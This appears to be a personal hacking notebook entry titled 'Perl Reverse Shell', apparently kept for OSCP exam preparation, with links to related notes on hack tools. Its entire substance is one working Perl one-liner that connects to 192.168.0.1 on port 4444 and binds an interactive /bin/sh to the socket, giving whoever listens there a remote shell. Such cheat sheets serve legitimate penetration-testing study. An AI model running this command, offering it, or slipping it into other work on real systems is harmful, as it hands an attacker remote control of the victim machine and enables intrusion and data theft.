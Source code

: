 # Perl Reverse Shell
```
perl -MIO -e 'use Socket;$ip="192.168.0.1";$port=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

` zet/20221003150554/README.md `

# Related

- [20221003150275](/zet/20221003150275/README.md) firefox reverse shell toolbar hacktools
- [20221014190001](/zet/20221014190001/README.md) kb file named kb/hacking/common-commands.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam

Tags:

    #hacking
